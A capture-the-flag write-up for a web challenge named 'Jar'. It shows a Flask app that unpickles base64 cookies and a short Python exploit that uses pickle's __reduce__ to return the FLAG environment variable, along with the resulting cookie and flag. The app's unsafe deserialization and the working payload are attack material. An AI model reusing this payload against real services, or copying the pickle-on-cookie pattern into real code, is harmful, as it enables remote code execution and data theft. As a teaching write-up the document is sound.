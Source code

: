 # Jar
**Category: Web**

This challenge has a text input box, and the strings you enter get displayed on the page. The challenge source was provided:

```python
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

import pickle
import base64

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
	return send_file('pickle.jpg')

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response

app.run(threaded=True, host="0.0.0.0")
```
From reading the challenge source, we can see that the text we submit gets serialized with the `pickle` module, and then stored (in base64) in a cookie. Then the values in the cookie will be printed on the page. Also, the flag is stored in the `FLAG` environment variable, and we have to figure out some way to print it.

I did a bit of research in the Pickle documentation to see what it was all about:

> The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy.



The pickle documentation also states:

> Warning The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Sounds good. Let's try and do some of that. Pickle lets you specify a custom way to serialize a class with the `__reduce__` method. We can use this to create a class that serializes with the flag information. This exploit program will make us a cookie that can give us the flag:

```python
#!/usr/bin/env python3
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.getenv, ('FLAG',))

pickled = pickle.dumps([RCE()])
print(base64.urlsafe_b64encode(pickled).decode()) # gASVHwAAAAAAAABdlIwCb3OUjAZnZXRlbnaUk5SMBEZMQUeUhZRSlGEu
```

Inserting this cookie into the browser and refreshing the page revealed our flag! `actf{you_got_yourself_out_of_a_pickle}`
